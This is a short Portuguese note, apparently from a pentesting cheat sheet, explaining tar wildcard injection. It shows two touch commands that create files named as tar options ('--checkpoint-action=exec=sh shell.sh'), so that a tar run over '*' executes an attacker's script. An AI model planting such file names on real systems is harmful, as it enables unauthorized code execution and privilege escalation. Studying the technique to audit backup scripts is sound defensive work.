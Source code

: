 Caso o `tar` faça a compressão de uma pasta onde podemos criar arquivos usando o `*`, podemos passar arquivos com o nomes maliciosos, para serem executados como parâmetros.

```sh
$ touch "--checkpoint=1"
$ touch "--checkpoint-action=exec=sh shell.sh"
```

Após o `tar` ser executado, ele irá executar o arquivo `shell.sh`